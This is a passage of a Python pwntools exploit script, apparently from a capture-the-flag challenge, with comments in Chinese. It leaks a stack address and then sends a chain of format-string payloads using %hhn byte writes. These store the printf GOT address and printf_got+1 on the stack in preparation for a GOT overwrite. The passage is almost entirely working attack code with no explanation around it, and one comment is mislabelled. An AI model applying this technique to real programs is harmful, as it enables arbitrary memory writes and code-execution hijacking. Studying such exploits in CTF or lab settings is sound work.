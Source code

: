```python
r.recvuntil('0x')  
stack_addr1 = int(r.recvuntil('\n',drop=True),16)  
  
#写栈14$处的低1字节为0x14  
payload = '%' + str(0x14) + 'c%10$hhn'  
r.sendlineafter('Try again!\n',payload)  
#变更10处的地址，+1  
payload = '%' + str( (stack_addr1 & 0xFF) + 1) + 'c%6$hhn'  
r.sendlineafter('Try again!\n',payload)  
#写栈14$处的低2字节为0xB0  
payload = '%' + str(0xB0) + 'c%10$hhn'  
r.sendlineafter('Try again!\n',payload)  
  
#变更10处的地址，+2  
payload = '%' + str( (stack_addr1 & 0xFF) + 2) + 'c%6$hhn'  
r.sendlineafter('Try again!\n',payload)  
#写栈14$处的低3字节为0x04  
payload = '%' + str(0x04) + 'c%10$hhn'  
r.sendlineafter('Try again!\n',payload)  
  
#变更10处的地址，+3  
payload = '%' + str( (stack_addr1 & 0xFF) + 3) + 'c%6$hhn'  
r.sendlineafter('Try again!\n',payload)  
#写栈14$处的低4字节为0x08  
payload = '%' + str(0x08) + 'c%10$hhn'  
r.sendlineafter('Try again!\n',payload)  
  
  
############在$15处存入printf_got+1################  
#偏移4，指向$15  
stack_addr1 = stack_addr1 + 4  
payload = '%' + str( (stack_addr1 & 0xFF)) + 'c%6$hhn'  
r.sendlineafter('Try again!\n',payload)  
#写栈15$处的低1字节为0x15  
payload = '%' + str(0x15) + 'c%10$hhn'  
r.sendlineafter('Try again!\n',payload)  
#变更10处的地址，+1  
payload = '%' + str( (stack_addr1 & 0xFF) + 1) + 'c%6$hhn'  
r.sendlineafter('Try again!\n',payload)  
#写栈14$处的低2字节为0xB0  
payload = '%' + str(0xB0) + 'c%10$hhn'  
r.sendlineafter('Try again!\n',payload)  
  
#变更10处的地址，+2  
payload = '%' + str( (stack_addr1 & 0xFF) + 2) + 'c%6$hhn'  
r.sendlineafter('Try again!\n',payload)  
#写栈14$处的低3字节为0x04  
payload = '%' + str(0x04) + 'c%10$hhn'  
r.sendlineafter('Try again!\n',payload)  
  
#变更10处的地址，+3  
payload = '%' + str( (stack_addr1 & 0xFF) + 3) + 'c%6$hhn'  
r.sendlineafter('Try again!\n',payload)  
#写栈14$处的低4字节为0x08  
payload = '%' + str(0x08) + 'c%10$hhn'  
r.sendlineafter('Try again!\n',payload)  
  
#复原10处的数据  
payload = '%' + str( ((stack_addr1-4) & 0xFF)) + 'c%6$hhn'  
r.sendlineafter('Try again!\n',payload)  
  
  
#现在%14$处存着的就是printf的GOT表地址  
```
